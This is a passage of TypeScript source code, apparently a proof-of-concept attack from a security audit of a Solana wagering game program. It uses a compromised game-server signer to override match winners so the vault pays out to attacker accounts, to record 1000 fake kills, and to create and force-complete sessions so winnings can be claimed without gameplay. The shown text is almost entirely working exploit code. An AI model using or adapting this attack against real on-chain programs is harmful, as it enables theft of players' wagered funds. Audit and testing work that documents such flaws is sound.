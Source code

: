 ```typescript
            )
            .accounts({
                gameSession: this.getSessionPDA(sessionId),
                gameServer: this.compromisedGameServer.publicKey,
                vault: this.getVaultPDA(sessionId),
                winner1: this.attackerAccounts[0], // All attacker accounts
                winner2: this.attackerAccounts[1],
                winner3: this.attackerAccounts[2],
                winner4: this.attackerAccounts[3],
                winner5: this.attackerAccounts[4],
                tokenProgram: TOKEN_PROGRAM_ID,
            })
            .signers([this.compromisedGameServer])
            .rpc();

        console.log(`Overrode winner to Team ${fakeWinner}`);
    }

    async inflateKillStatistics(sessionId: string): Promise<void> {
        // 5. Record fake kills to inflate statistics
        for (let i = 0; i < 1000; i++) {
            await this.wagerProgram.methods
                .recordKill(
                    sessionId,
                    this.attackerTeam, // Attacker's team
                    this.attackerKeypair.publicKey, // Attacker as killer
                    this.opponentTeam, // Opponent team
                    this.generateFakeVictim() // Fake or real victim
                )
                .accounts({
                    gameSession: this.getSessionPDA(sessionId),
                    gameServer: this.compromisedGameServer.publicKey,
                })
                .signers([this.compromisedGameServer])
                .rpc();
        }

        console.log("Inflated kill statistics to 1000 kills");
    }

    async bypassGameLogic(sessionId: string): Promise<void> {
        // 6. Create game and immediately force completion
        await this.wagerProgram.methods
            .createGameSession(
                sessionId,
                1000,
                GameMode.WinnerTakesAllFiveVsFive
            )
            .accounts({
                gameSession: this.getSessionPDA(sessionId),
                gameServer: this.attackerKeypair.publicKey,
                systemProgram: SystemProgram.programId,
            })
            .signers([this.attackerKeypair])
            .rpc();

        // 7. Manipulate game state directly (if possible through other vulnerabilities)
        await this.forceGameCompletion(sessionId);

        // 8. Distribute winnings without any actual gameplay
        await this.overrideWinner(sessionId, this.attackerTeam);
    }

```